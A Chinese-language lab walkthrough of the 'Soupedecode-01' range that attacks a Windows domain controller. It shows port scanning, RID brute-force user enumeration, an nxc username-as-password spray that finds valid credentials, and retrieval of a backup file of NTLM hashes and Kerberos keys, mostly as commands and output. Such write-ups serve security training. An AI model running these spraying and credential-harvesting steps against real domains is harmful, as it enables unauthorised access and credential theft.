


# 无境靶场Soupedecode-01-thm



```
目标地址 192.168.111.20
本机地址 192.168.111.25
```

kali配一下vpn

```
sudo openvpn 746\ \(1\).ovpn
2026-07-17 01:56:18 Note: Kernel support for ovpn-dco missing, disabling data channel offload.
2026-07-17 01:56:18 OpenVPN 2.6.14 x86_64-pc-linux-gnu [SSL (OpenSSL)] [LZO] [LZ4] [EPOLL] [PKCS11] [MH/PKTINFO] [AEAD] [DCO]
2026-07-17 01:56:18 library versions: OpenSSL 3.5.4 30 Sep 2025, LZO 2.10
2026-07-17 01:56:18 DCO version: N/A
2026-07-17 01:56:18 TCP/UDP: Preserving recently used remote address: [AF_INET]132.232.154.229:1246
2026-07-17 01:56:18 Socket Buffers: R=[212992->212992] S=[212992->212992]
2026-07-17 01:56:18 UDPv4 link local: (not bound)
2026-07-17 01:56:18 UDPv4 link remote: [AF_INET]132.232.154.229:1246
2026-07-17 01:56:18 TLS: Initial packet from [AF_INET]132.232.154.229:1246, sid=4e664651 c3944d5c
2026-07-17 01:56:18 VERIFY OK: depth=1, CN=Easy-RSA CA
2026-07-17 01:56:18 VERIFY KU OK
2026-07-17 01:56:18 Validating certificate extended key usage
2026-07-17 01:56:18 ++ Certificate has EKU (str) TLS Web Server Authentication, expects TLS Web Server Authentication
2026-07-17 01:56:18 VERIFY EKU OK
2026-07-17 01:56:18 VERIFY OK: depth=0, CN=server
2026-07-17 01:56:18 Control Channel: TLSv1.2, cipher TLSv1.2 ECDHE-RSA-AES256-GCM-SHA384, peer certificate: 2048 bits RSA, signature: RSA-SHA256, peer temporary key: 256 bits ECprime256v1
2026-07-17 01:56:18 [server] Peer Connection Initiated with [AF_INET]132.232.154.229:1246
2026-07-17 01:56:18 TLS: move_session: dest=TM_ACTIVE src=TM_INITIAL reinit_src=1
2026-07-17 01:56:18 TLS: tls_multi_process: initial untrusted session promoted to trusted
2026-07-17 01:56:20 SENT CONTROL [server]: 'PUSH_REQUEST' (status=1)
2026-07-17 01:56:20 PUSH: Received control message: 'PUSH_REPLY,route 192.168.111.0 255.255.255.0,route 10.8.0.1,topology net30,ping 10,ping-restart 120,ifconfig 10.8.0.6 10.8.0.5,peer-id 0,cipher AES-256-GCM'
2026-07-17 01:56:20 OPTIONS IMPORT: --ifconfig/up options modified
2026-07-17 01:56:20 OPTIONS IMPORT: route options modified
2026-07-17 01:56:20 net_route_v4_best_gw query: dst 0.0.0.0
2026-07-17 01:56:20 net_route_v4_best_gw result: via 192.168.100.1 dev eth0
2026-07-17 01:56:20 ROUTE_GATEWAY 192.168.100.1/255.255.254.0 IFACE=eth0 HWADDR=00:0c:29:45:eb:2c
2026-07-17 01:56:20 TUN/TAP device tun0 opened
2026-07-17 01:56:20 net_iface_mtu_set: mtu 1500 for tun0
2026-07-17 01:56:20 net_iface_up: set tun0 up
2026-07-17 01:56:20 net_addr_ptp_v4_add: 10.8.0.6 peer 10.8.0.5 dev tun0
2026-07-17 01:56:20 net_route_v4_add: 192.168.111.0/24 via 10.8.0.5 dev [NULL] table 0 metric -1
2026-07-17 01:56:20 net_route_v4_add: 10.8.0.1/32 via 10.8.0.5 dev [NULL] table 0 metric -1
2026-07-17 01:56:20 Initialization Sequence Completed
2026-07-17 01:56:20 Data Channel: cipher 'AES-256-GCM', peer-id: 0
2026-07-17 01:56:20 Timers: ping 10, ping-restart 120

```

```
8: tun0: <POINTOPOINT,MULTICAST,NOARP,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UNKNOWN group default qlen 500
    link/none 
    inet 10.8.0.6 peer 10.8.0.5/32 scope global tun0
       valid_lft forever preferred_lft forever
    inet6 fe80::e70c:f411:9c81:bf92/64 scope link stable-privacy proto kernel_ll 
       valid_lft forever preferred_lft forever
                                                                                                                                                                                                                                            
┌──(kali㉿kali)-[~/Desktop/vpn]
└─$ ping 192.168.111.20
PING 192.168.111.20 (192.168.111.20) 56(84) bytes of data.
64 bytes from 192.168.111.20: icmp_seq=1 ttl=127 time=34.4 ms
64 bytes from 192.168.111.20: icmp_seq=2 ttl=127 time=35.4 ms
^C
--- 192.168.111.20 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1000m
```

‍

windos



# 信息收集

```

[*] 服务插件: oracle, postgresql, rabbitmq, vnc, kafka ... 等36个
[*] 参数自适应: Timeout=1000ms, ModuleThread=5, Retry=6, ICMPRate=0.05, PocNum=5
[*] 192.168.111.20:445             microsoft-ds [Product:Microsoft Windows SMB2] Banner:(SMB@ A I ]Y x `v + l0j <0: + 7 * H * H * H + 7 *0( & $not_defined_in_RFC4178@ple...)
[-] 插件扫描错误 192.168.111.20:445 - 目标可能不支持SMBv1
[+] SMBInfo 192.168.111.20:445 [Windows 10 (Build 20348)] DC01 SMBv2
[*] https://192.168.111.20:3389    ssl      Banner:(S M jY F Ku v m B IA 8 G ? }B _v D # d HZg@^ / 0 0 5 2 z F 0 * H 0!1 0 U DC01.so...)
[+] RDP 192.168.111.20:3389 [OS:Windows Server 2022, Build:Windows 10.0.20348, Hostname:DC01, DNSDomain:soupedecode.local, FQDN:DC01.soupedecode.local, NetBIOSDomain:SOUPEDECODE]
[-] 插件扫描错误 192.168.111.20:3389 - Get "https://192.168.111.20:3389": remote error: tls: internal error
[*] http://192.168.111.20:139      http     [Product:Open Lighting Architecture daemon]
[-] 插件扫描错误 192.168.111.20:139 - 读取SMB Session Setup响应失败: EOF
[-] 插件扫描错误 192.168.111.20:139 - SMB协议探测失败: 读取SMBv2协商响应失败: 消息长度过大: 2197815297
[*] 192.168.111.20:88              spark    [Product:Apache Spark]
[*] 192.168.111.20:636
[*] 192.168.111.20:389             genetec-5400 [Product:Genetec Security Center] Banner:(0 d 0 0 domainFunctionality1 70 forestFunctionality1 70 ( domainControllerFuncti...)
[-] 插件扫描错误 192.168.111.20:139 - Get "http://192.168.111.20:139": net/http: HTTP/1.x transport connection broken: malformed HTTP response "\x83\x00\x00\x01\x8f"
[*] 192.168.111.20:3269
[!] SMB 192.168.111.20:445 admin:123456
[*] 192.168.111.20:3268            genetec-5400 [Product:Genetec Security Center] Banner:(0 d 0 0 domainFunctionality1 70 forestFunctionality1 70 ( domainControllerFuncti...)
[*] http://192.168.111.20:5985     http     [Product:Open Lighting Architecture daemon] Banner:(HTTP/1.1 404 Not Found Content-Type: text/html; charset=us-ascii Server: Microso...)
[*] http://192.168.111.20:5985     code:404 len:315   title:Not Found            server:Microsoft-HTTPAPI/2.0
[-] 192.168.111.20:636 ldap 未发现弱密码
[*] 192.168.111.20:53              domain   [Product:Simple DNS Plus] Banner:(version bind)
[*] 192.168.111.20:135             msrpc    [Product:Microsoft Windows RPC] Banner:(@)
端口扫描中（22线程） ● 100.0% [==============================] (133/133) 9/s TCP:1258/155
[完成] 扫描完成: 133/133 (耗时: 15.2s)
[*] 扫描完成，发现 11 个开放端口
[+] NetInfo 192.168.111.20:135 [DC01]
[+] NetInfo 192.168.111.20:135   -> 192.168.111.20
[-] 192.168.111.20:3269 ldap 未发现弱密码
[-] 192.168.111.20:389 ldap 未发现弱密码
[-] 192.168.111.20:3268 ldap 未发现弱密码
[-] 插件扫描错误 192.168.111.20:3389 - RDP端口未开放
[*] 扫描任务完成，耗时 1m55.708s，已扫描 20 个目标
```

```
端口	协议	服务	说明
53	  TCP	DNS	Simple DNS Plus（域控 DNS 服务）
88	  TCP	Kerberos	Apache Spark（误识别，实际是 Kerberos）
135	  TCP	MSRPC	Microsoft Windows RPC
139	  TCP	NetBIOS/SMB	SMB over NetBIOS
389	  TCP	LDAP	域控制器 LDAP
445	  TCP	SMB	Microsoft Windows SMB2（DC01）
636	  TCP	LDAPS	LDAP over SSL
3268  TCP	Global Catalog LDAP	全局编录
3269  TCP	Global Catalog LDAPS	全局编录 SSL
3389  TCP	RDP	Windows Server 2022 (Build 20348)
5985  TCP	WinRM	HTTP（Microsoft-HTTPAPI/2.0）
```

‍

在介绍页就已经说了这是一个域控

# 用enum4linux-ng自动枚举一下

```
enum4linux-ng -A 192.168.111.20
```

```
enum4linux-ng -A 192.168.111.20
ENUM4LINUX - next generation (v1.3.10)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 192.168.111.20
[*] Username ......... ''
[*] Random Username .. 'etrmclrh'
[*] Password ......... ''
[*] Timeout .......... 10 second(s)

 =======================================
|    Listener Scan on 192.168.111.20    |
 =======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ======================================================
|    Domain Information via LDAP for 192.168.111.20    |
 ======================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: soupedecode.local

 =============================================================
|    NetBIOS Names and Workgroup/Domain for 192.168.111.20    |
 =============================================================
[+] Got domain/workgroup name: SOUPEDECODE
[+] Full NetBIOS names information:
- DC01            <00> -         B <ACTIVE>  Workstation Service                                                                                                                                                                            
- SOUPEDECODE     <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name                                                                                                                                                                          
- SOUPEDECODE     <1c> - <GROUP> B <ACTIVE>  Domain Controllers                                                                                                                                                                             
- DC01            <20> -         B <ACTIVE>  File Server Service                                                                                                                                                                            
- SOUPEDECODE     <1b> -         B <ACTIVE>  Domain Master Browser                                                                                                                                                                          
- MAC Address = 00-50-56-B1-87-CD                                                                                                                                                                                                           

 ===========================================
|    SMB Dialect Check on 192.168.111.20    |
 ===========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                         
  SMB 1.0: false                                                                                                                                                                                                                            
  SMB 2.0.2: true                                                                                                                                                                                                                           
  SMB 2.1: true                                                                                                                                                                                                                             
  SMB 3.0: true                                                                                                                                                                                                                             
  SMB 3.1.1: true                                                                                                                                                                                                                           
Preferred dialect: SMB 3.0                                                                                                                                                                                                                  
SMB1 only: false                                                                                                                                                                                                                            
SMB signing required: true                                                                                                                                                                                                                  

 =============================================================
|    Domain Information via SMB session for 192.168.111.20    |
 =============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: DC01                                                                                                                                                                                                                 
NetBIOS domain name: SOUPEDECODE                                                                                                                                                                                                            
DNS domain: soupedecode.local                                                                                                                                                                                                               
FQDN: DC01.soupedecode.local                                                                                                                                                                                                                
Derived membership: domain member                                                                                                                                                                                                           
Derived domain: SOUPEDECODE                                                                                                                                                                                                                 

 ===========================================
|    RPC Session Check on 192.168.111.20    |
 ===========================================
[*] Check for anonymous access (null session)
[+] Server allows authentication via username '' and password ''
[*] Check for guest access
[+] Server allows authentication via username 'etrmclrh' and password ''
[H] Rerunning enumeration with user 'etrmclrh' might give more results

 =====================================================
|    Domain Information via RPC for 192.168.111.20    |
 =====================================================
[+] Domain: SOUPEDECODE
[+] Domain SID: S-1-5-21-875679470-3476450079-2794512899
[+] Membership: domain member

 =================================================
|    OS Information via RPC for 192.168.111.20    |
 =================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                    
OS version: '10.0'                                                                                                                                                                                                                          
OS release: ''                                                                                                                                                                                                                              
OS build: '20348'                                                                                                                                                                                                                           
Native OS: not supported                                                                                                                                                                                                                    
Native LAN manager: not supported                                                                                                                                                                                                           
Platform id: null                                                                                                                                                                                                                           
Server type: null                                                                                                                                                                                                                           
Server type string: null                                                                                                                                                                                                                    

 =======================================
|    Users via RPC on 192.168.111.20    |
 =======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 ========================================
|    Groups via RPC on 192.168.111.20    |
 ========================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 ========================================
|    Shares via RPC on 192.168.111.20    |
 ========================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ===========================================
|    Policies via RPC for 192.168.111.20    |
 ===========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ===========================================
|    Printers via RPC for 192.168.111.20    |
 ===========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 6.03 seconds

```

## 信息提取

```
| 项目           | 结果                                     |
| ------------ | -------------------------------------- |
| **主机名**      | DC01                                   |
| **域名**       | SOUPEDECODE / soupedecode.local        |
| **角色**       | 域控制器 (Domain Controller)               |
| **OS**       | Windows Server 2019/2016 (Build 20348) |
| **SMB 签名**   | 强制启用                                   |
| **空会话**      | ✅ 允许，但权限受限                             |
| **Guest 访问** | ✅ 允许                                   |

```

‍

# SMB共享目录枚举

```
nxc smb 192.168.111.20 -u 'guest' -p '' --shares
SMB         192.168.111.20  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False) 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\guest: 
SMB         192.168.111.20  445    DC01             [*] Enumerated shares
SMB         192.168.111.20  445    DC01             Share           Permissions     Remark
SMB         192.168.111.20  445    DC01             -----           -----------     ------
SMB         192.168.111.20  445    DC01             ADMIN$                          远程管理
SMB         192.168.111.20  445    DC01             backup                          
SMB         192.168.111.20  445    DC01             C$                              默认共享
SMB         192.168.111.20  445    DC01             IPC$            READ            远程 IPC
SMB         192.168.111.20  445    DC01             NETLOGON                        Logon server share 
SMB         192.168.111.20  445    DC01             SYSVOL                          Logon server share 

```

发现backup共享但是没权限 

# RID暴力破解用户枚举

```
nxc smb 192.168.111.20 -u 'guest' -p '' --rid-brute
```

```
nxc smb 192.168.111.20 -u 'guest' -p '' --rid-brute
SMB         192.168.111.20  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False) 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\guest: 
SMB         192.168.111.20  445    DC01             498: SOUPEDECODE\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.111.20  445    DC01             500: SOUPEDECODE\Administrator (SidTypeUser)
SMB         192.168.111.20  445    DC01             501: SOUPEDECODE\Guest (SidTypeUser)
SMB         192.168.111.20  445    DC01             502: SOUPEDECODE\krbtgt (SidTypeUser)
SMB         192.168.111.20  445    DC01             512: SOUPEDECODE\Domain Admins (SidTypeGroup)
SMB         192.168.111.20  445    DC01             513: SOUPEDECODE\Domain Users (SidTypeGroup)
SMB         192.168.111.20  445    DC01             514: SOUPEDECODE\Domain Guests (SidTypeGroup)
SMB         192.168.111.20  445    DC01             515: SOUPEDECODE\Domain Computers (SidTypeGroup)
SMB         192.168.111.20  445    DC01             516: SOUPEDECODE\Domain Controllers (SidTypeGroup)
SMB         192.168.111.20  445    DC01             517: SOUPEDECODE\Cert Publishers (SidTypeAlias)
SMB         192.168.111.20  445    DC01             518: SOUPEDECODE\Schema Admins (SidTypeGroup)
SMB         192.168.111.20  445    DC01             519: SOUPEDECODE\Enterprise Admins (SidTypeGroup)
SMB         192.168.111.20  445    DC01             520: SOUPEDECODE\Group Policy Creator Owners (SidTypeGroup)
SMB         192.168.111.20  445    DC01             521: SOUPEDECODE\Read-only Domain Controllers (SidTypeGroup)
SMB         192.168.111.20  445    DC01             522: SOUPEDECODE\Cloneable Domain Controllers (SidTypeGroup)
SMB         192.168.111.20  445    DC01             525: SOUPEDECODE\Protected Users (SidTypeGroup)
SMB         192.168.111.20  445    DC01             526: SOUPEDECODE\Key Admins (SidTypeGroup)
SMB         192.168.111.20  445    DC01             527: SOUPEDECODE\Enterprise Key Admins (SidTypeGroup)
SMB         192.168.111.20  445    DC01             553: SOUPEDECODE\RAS and IAS Servers (SidTypeAlias)
SMB         192.168.111.20  445    DC01             571: SOUPEDECODE\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         192.168.111.20  445    DC01             572: SOUPEDECODE\Denied RODC Password Replication Group (SidTypeAlias)
SMB         192.168.111.20  445    DC01             1000: SOUPEDECODE\DC01$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1101: SOUPEDECODE\DnsAdmins (SidTypeAlias)
SMB         192.168.111.20  445    DC01             1102: SOUPEDECODE\DnsUpdateProxy (SidTypeGroup)
SMB         192.168.111.20  445    DC01             1139: SOUPEDECODE\ybob317 (SidTypeUser)
SMB         192.168.111.20  445    DC01             1140: SOUPEDECODE\file_svc (SidTypeUser)
SMB         192.168.111.20  445    DC01             1141: SOUPEDECODE\FileServer$$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1142: SOUPEDECODE\FileServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1143: SOUPEDECODE\WebServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1144: SOUPEDECODE\DatabaseServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1145: SOUPEDECODE\CitrixServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1146: SOUPEDECODE\MailServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1147: SOUPEDECODE\BackupServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1148: SOUPEDECODE\ApplicationServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1149: SOUPEDECODE\PrintServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1150: SOUPEDECODE\ProxyServer$ (SidTypeUser)
SMB         192.168.111.20  445    DC01             1151: SOUPEDECODE\MonitoringServer$ (SidTypeUser)

```

为了处理大量的搜索结果，常常用`awk`将用户名提取到一个专门的字典中：

```
| awk '{split($6,a,"\\"); print a[2]}' > users.txt
```

```
cat users.txt                           

guest:
Enterprise
Administrator
Guest
krbtgt
Domain
Domain
Domain
Domain
Domain
Cert
Schema
Enterprise
Group
Read-only
Cloneable
Protected
Key
Enterprise
RAS
Allowed
Denied
DC01$
DnsAdmins
DnsUpdateProxy
ybob317
file_svc
FileServer$$
FileServer$
WebServer$
DatabaseServer$
CitrixServer$
MailServer$
BackupServer$
ApplicationServer$
PrintServer$
ProxyServer$
MonitoringServer$

```

### 检查弱凭证

常常有用户名和密码一样的

```
nxc smb 192.168.111.20 -u users.txt -p users.txt --no-bruteforce --continue-on-success   
```

```
nxc smb 192.168.111.20 -u users.txt -p users.txt --no-bruteforce --continue-on-success                
SMB         192.168.111.20  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False) 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\: 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\guest::guest: (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Enterprise:Enterprise (Guest)
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\Administrator:Administrator STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\Guest:Guest STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Domain:Domain (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Domain:Domain (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Domain:Domain (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Domain:Domain (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Domain:Domain (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Cert:Cert (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Schema:Schema (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Enterprise:Enterprise (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Group:Group (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Read-only:Read-only (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Cloneable:Cloneable (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Protected:Protected (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Key:Key (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Enterprise:Enterprise (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\RAS:RAS (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Allowed:Allowed (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\Denied:Denied (Guest)
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\DC01$:DC01$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\DnsAdmins:DnsAdmins (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\DnsUpdateProxy:DnsUpdateProxy (Guest)
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\ybob317:ybob317 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\file_svc:file_svc STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\FileServer$$:FileServer$$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\FileServer$:FileServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\WebServer$:WebServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\DatabaseServer$:DatabaseServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\CitrixServer$:CitrixServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\MailServer$:MailServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\BackupServer$:BackupServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\ApplicationServer$:ApplicationServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\PrintServer$:PrintServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\ProxyServer$:ProxyServer$ STATUS_LOGON_FAILURE 
SMB         192.168.111.20  445    DC01             [-] soupedecode.local\MonitoringServer$:MonitoringServer$ STATUS_LOGON_FAILURE 

```

**获得有效的凭证：**

```
ybob317:ybob317 
```

# 使用有效凭据枚举 SMB 共享

```
nxc smb 192.168.111.20 -u 'ybob317' -p 'ybob317' --shares 
```

```
nxc smb 192.168.111.20 -u 'ybob317' -p 'ybob317' --shares                             
SMB         192.168.111.20  445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:soupedecode.local) (signing:True) (SMBv1:False) 
SMB         192.168.111.20  445    DC01             [+] soupedecode.local\ybob317:ybob317 
SMB         192.168.111.20  445    DC01             [*] Enumerated shares
SMB         192.168.111.20  445    DC01             Share           Permissions     Remark
SMB         192.168.111.20  445    DC01             -----           -----------     ------
SMB         192.168.111.20  445    DC01             ADMIN$                          远程管理
SMB         192.168.111.20  445    DC01             backup          READ            
SMB         192.168.111.20  445    DC01             C$                              默认共享
SMB         192.168.111.20  445    DC01             IPC$            READ            远程 IPC
SMB         192.168.111.20  445    DC01             NETLOGON        READ            Logon server share 
SMB         192.168.111.20  445    DC01             SYSVOL          READ            Logon server share 

```

发现已经有backup的权限了

```
smbclient  //192.168.111.20/backup -U "ybob317"
Password for [WORKGROUP\ybob317]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Tue Nov 18 12:56:59 2025
  ..                                DHS        0  Tue Nov 18 13:02:50 2025
  backup_extract.txt                  A     3796  Tue Nov 18 12:56:13 2025

                10401279 blocks of size 4096. 7146291 blocks available

```

```
mb: \> get backup_extract.txt
getting file \backup_extract.txt of size 3796 as backup_extract.txt (21.1 KiloBytes/sec) (average 21.1 KiloBytes/sec)

```

```
cat backup_extract.txt                  
soupedecode.local\FileServer$:1142:aad3b435b51404eeaad3b435b51404ee:3647bc99352403e306780b2c0c63a685:::
WebServer$:1143:aad3b435b51404eeaad3b435b51404ee:9bcde1e9b9f1d387b4384df7a6999d74:::
DatabaseServer$:1144:aad3b435b51404eeaad3b435b51404ee:cff031800058bdd35b5656d48c587be2:::
CitrixServer$:1145:aad3b435b51404eeaad3b435b51404ee:8aa99c9c7a7992d4a318ee78e40e8edb:::
MailServer$:1146:aad3b435b51404eeaad3b435b51404ee:f8bbfffd318d4946e0cf535e91fff41e:::
BackupServer$:1147:aad3b435b51404eeaad3b435b51404ee:98af6b641651876f02c5413cc675b452:::
ApplicationServer$:1148:aad3b435b51404eeaad3b435b51404ee:53d3e4a6806dc173e381cac2249c31a5:::
PrintServer$:1149:aad3b435b51404eeaad3b435b51404ee:53ae68a440adca921647ac1e3d372009:::
ProxyServer$:1150:aad3b435b51404eeaad3b435b51404ee:4877e819a294199fdd6eb8b060539c8a:::
MonitoringServer$:1151:aad3b435b51404eeaad3b435b51404ee:d7587c883ad1306000967ea6f2521b6c:::
WIN-9LOH12M435J$:1000:aad3b435b51404eeaad3b435b51404ee:e35cc01821628990870c6618fe3b209c:::
FileServer$$:1141:aad3b435b51404eeaad3b435b51404ee:3f1f33b3b48357d985a4158bd1969f27:::
soupedecode.local\FileServer$:aes256-cts-hmac-sha1-96:73aed49ef2f5a99b13ad3073c17bf71dbd39f271da06622aaa5ad184bba31e16
soupedecode.local\FileServer$:aes128-cts-hmac-sha1-96:3a7cf5a39f2a9c9112847de41ded3eca
soupedecode.local\FileServer$:des-cbc-md5:705d9dbf6270c4ea
WebServer$:aes256-cts-hmac-sha1-96:2f3c32a02e26acccdfcd264d1dd4cf3909a2fcdae003ca8aa02c48cc6d50556d
WebServer$:aes128-cts-hmac-sha1-96:ab69cdd41439a39cfb7daf2f1d3149cb
WebServer$:des-cbc-md5:ae43efc83d266bce
DatabaseServer$:aes256-cts-hmac-sha1-96:84c35d5c4a3242eb1ecd92c3d47d309cb02fbff3ea0d72383f91fd1792bfb66e
DatabaseServer$:aes128-cts-hmac-sha1-96:ccde2125e5b973dc3c73d03dcd38de1e
DatabaseServer$:des-cbc-md5:983702d98fbf1038
CitrixServer$:aes256-cts-hmac-sha1-96:56095c316eb193f1db53ad6b105341cf74d2723276313bdbc0fa5e27e057c076
CitrixServer$:aes128-cts-hmac-sha1-96:b3bde52c56c1f51e410672b76d779acb
CitrixServer$:des-cbc-md5:ce43bf3d9b32dc8f
MailServer$:aes256-cts-hmac-sha1-96:ae4a6707994f24523958e044c62937a92d6e5ee33811bafa908f14a3b573fbd8
MailServer$:aes128-cts-hmac-sha1-96:5b514257a44cab0f6e150613ac5c12a1
MailServer$:des-cbc-md5:46ce0e3d54a75802
BackupServer$:aes256-cts-hmac-sha1-96:66d56d59d1bc8b9a9a225e957a704e845ae271f7d16dbdb9e64c78e6b880f7b4
BackupServer$:aes128-cts-hmac-sha1-96:afa8cd5b9139ae46f604429ea951b3b1
BackupServer$:des-cbc-md5:8515a4ea34fdf780
ApplicationServer$:aes256-cts-hmac-sha1-96:f3a9ba60660440faca4a91e8c8b2fd0372cc04fc439e31c84cebbf60fc3a35ae
ApplicationServer$:aes128-cts-hmac-sha1-96:a9e8c3d921e154b4d80628199b114e2c
ApplicationServer$:des-cbc-md5:26dac29bec23d064
PrintServer$:aes256-cts-hmac-sha1-96:3a97c9a789a694ce56c83be39b17e0bbeb074f5ebe571f77d48bd1b4555fba8e
PrintServer$:aes128-cts-hmac-sha1-96:5da1ec054a3481e4733086f27276533d
PrintServer$:des-cbc-md5:7a407c5e75a8eabc
ProxyServer$:aes256-cts-hmac-sha1-96:752ea8849070e32de8913cb09fe90f6a81663a860a4733e43b36f1705680532a
ProxyServer$:aes128-cts-hmac-sha1-96:79183d8300093e16981d371f67f64998
ProxyServer$:des-cbc-md5:07f2cbeab31f0ec2
MonitoringServer$:aes256-cts-hmac-sha1-96:04f3cdf9154e5b1f288ffdc86cc1eba5b48f359669441423edeb670ba7ea8c3f
MonitoringServer$:aes128-cts-hmac-sha1-96:1a93ee64ea8f9a2600cd09c0b388dbcd
MonitoringServer$:des-cbc-md5:91c7a4513264d345
